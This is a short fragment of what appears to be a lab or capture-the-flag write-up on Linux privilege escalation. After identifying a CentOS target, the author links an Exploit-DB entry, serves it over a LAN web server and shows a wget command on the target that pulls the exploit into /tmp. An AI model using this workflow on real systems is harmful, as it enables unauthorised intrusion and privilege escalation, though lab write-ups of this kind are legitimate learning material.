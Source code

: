 We got the OS information , EXPLOIT Link for above CentOS https://www.exploit-db.com/exploits/9542 download that file and locate

<img src="../img/Pasted image 20240530172901.png" alt="Example Image" width="1080"/>

I Made HTTP Server on LAN in order to push that file into target machine

<img src="../img/Pasted image 20240530173311.png" alt="Example Image" width="1080"/>

On Target Machine

```
cd /tmp
wget http://192.168.69.5/9542.c
```
